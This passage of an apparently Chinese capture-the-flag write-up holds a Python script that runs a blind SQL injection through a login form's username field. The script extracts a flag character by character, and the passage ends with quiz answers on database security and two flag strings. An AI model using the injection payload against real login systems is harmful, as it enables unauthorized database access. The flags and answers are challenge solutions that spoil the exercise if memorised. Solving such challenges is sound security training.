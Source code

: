 ```python
            sqlContent = "select group_concat(b) from (select 1 as b union select * from f1ag)a".replace(" ", "/**/")  #1,flag{972f6491-7e54-47b1-ada0-639991ecd284}
            param = {
                "password": "null",
                "username": f"nullnull\"/**/||/**/(case/**/when(ascii(left(reverse(left(({sqlContent}),{i})),1)))/**/in/**/({str(list(range(low, mid + 1))).replace('[',' ').replace(']',' ').replace(' ','')})then(cot(0))else(1)end)#"
            }
            r = session.post(url=url, data=param)
            if b"Username" in r.content:
                high = mid - 1
            else:
                low = mid + 1
        print(i)
        mid_num = int((high + low + 1) / 2)
        text += chr(mid_num)
        print(text)


if __name__ == '__main__':
    main()
```

```flag
flag{972f6491-7e54-47b1-ada0-639991ecd284}
```

### 签到

有手就行的答题。

> 参考：https://www.cnitpm.com/pm/32463.html

![](https://butter.lumosary.workers.dev/images/archive/a850ee59-1552-4e96-92a3-c88074a54003/1617358076482.07a4ba821854dd46252e4b024f508e5dc420bddc.png@300w.png)

在数据库系统中，口令保护是信息系统的第一道屏障。

为了防止物理上取走数据库而采取的加强数据库安全的方法是数据库加密。

系统要达到什么样的完整性，取决于系统所处理信息地重要程度、价值和敏感性。

在数据库的安全评估过程中，可行性是指系统能够对付各种可能地攻击的能力。

数据库访问控制策略中，只需策略是只让用户得到有相应权限的信息，这些信息恰到可以让用户完成自己的工作，其他的权利一律不给。

数据库的安全策略是指如何组织、管理、保护和处理敏感信息的指导思想。它包括安全管理策略、访问控制策略和信息控制策略。

数据库的加密方法中，采用库外加密，则密钥管理较为简单，只需借用文件加密的密钥管理方法。

在下面的加密方法中，元素加密加解密的效率最低。

事故故障是指事务在运行至正常终止前被中止，这时恢复子系统应利用日志文件撤销此事物已对数据库进行的修改。

发生介质故障后，磁盘上的物理数据和日志文件被破坏，这是最严重的一种故障，恢复方法是重装数据库，然后重做已完成的事务。

```flag
flag{4df9488a-b979-4151-9f15-baa772faab3f}
```
